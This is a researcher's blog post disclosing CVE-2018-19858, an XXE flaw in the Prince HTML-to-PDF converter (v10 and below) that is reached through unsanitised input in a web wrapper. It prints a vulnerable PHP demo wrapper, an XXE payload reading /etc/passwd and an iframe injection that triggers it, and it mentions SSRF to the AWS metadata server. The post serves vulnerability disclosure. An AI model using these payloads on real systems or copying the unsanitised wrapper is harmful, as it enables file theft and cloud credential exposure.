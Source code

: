 ```yaml
---
layout: post
title: "XSS to XXE in Prince v10 and below (CVE-2018-19858)"
author: Corben Leo
---
```

### Introduction:
This is a vulnerability I found while participating in a <a class="link" href="https://en.wikipedia.org/wiki/Bug_bounty_program"  target="_blank" rel="noopener noreferrer">bug-bounty program</a> earlier this year. It affects Prince, a software that converts "HTML, XHTML, or one of the many XML-based document formats" to PDF.

### Summary
Prince (versions 10 and below) is vulnerable to XML External Entities (XXE) due to the software processing XML with no protections against entities. This allows a remote attacker to gain file read, perform SSRF attacks, DOS, and more. This software is often used with a custom web wrapper that passes user-input into an HTML template which is then converted into a PDF. 

Due to this, it will ocassionally require an XSS in the wrapper – no proper sanitization of user-input before passing it into the HTML template that's being converted.

### Exploitation: 
Demo:
- `http://<server>/convert.php`

```php
<?php
$binary = "/usr/local/bin/prince";
if($_SERVER['REQUEST_METHOD'] == 'POST') {
  $content = $_POST['content'];
  $file = "/tmp/doc.html";
  $sf = fopen($file, 'w');
  fwrite($sf, $content);
  fclose($sf);
  exec($binary." /tmp/doc.html -o out.pdf");
  header('Location: /out.pdf');
} else {
	echo '
<html>
<head>
<title>Convert</title>
<style>
textarea {
  width: 500px;
  height: 300px;
}
</style>
</head>
<body>
	<textarea name="content" form="princeForm">Enter text here...</textarea>
        <form method="POST" action="/convert.php" id="princeForm">
        <input type="submit" value="Convert to PDF"></input>
        </form>
</body>
</html>
	';
}
?>
```


Host an XML file with the following contents:

```
<?xml version="1.0"?>
<!DOCTYPE cdl [<!ENTITY asd SYSTEM "file:///etc/passwd">]>
<cdl>&asd;</cdl>
```

Now give the converter the following HTML:

`<iframe src="http://<server>/xxe.xml">` 

Prince will then <b>retrieve</b> the url in the SRC attribute in an attempt to display the iframe, <b>process</b> the XML we provide, and then render the result in the converted PDF document:

![etcpasswd](/images/prince/passwd.png "Contents of Passwd")


We can exploit this XXE to get full-read SSRF by giving it a SYSTEM entity with a <b>URL</b> instead, such as the AWS metadata server:

![aws](/images/prince/ssrf.gif "AWS SSRF")

## outro:
This issue was fixed in Prince version 11 and was assigned the following CVE: <special>CVE-2018-19858</special>.
<br><br>
There's another vulnerability affecting Prince versions 12 and below that I'll write-up soon as soon as it's patched.
<br><br>
Thanks for reading,<br>
**Corben Leo**
- <a class="link" href="https://twitter.com/hacker_"  target="_blank" rel="noopener noreferrer">https://twitter.com/hacker_</a>
- <a class="link" href="https://hackerone.com/cdl" target="_blank" rel="noopener noreferrer">https://hackerone.com/cdl</a>
- <a class="link" href="https://bugcrowd.com/c" target="_blank" rel="noopener noreferrer">https://bugcrowd.com/c</a>
- <a class="link" href="https://github.com/lc"  target="_blank" rel="noopener noreferrer">https://github.com/lc</a>

 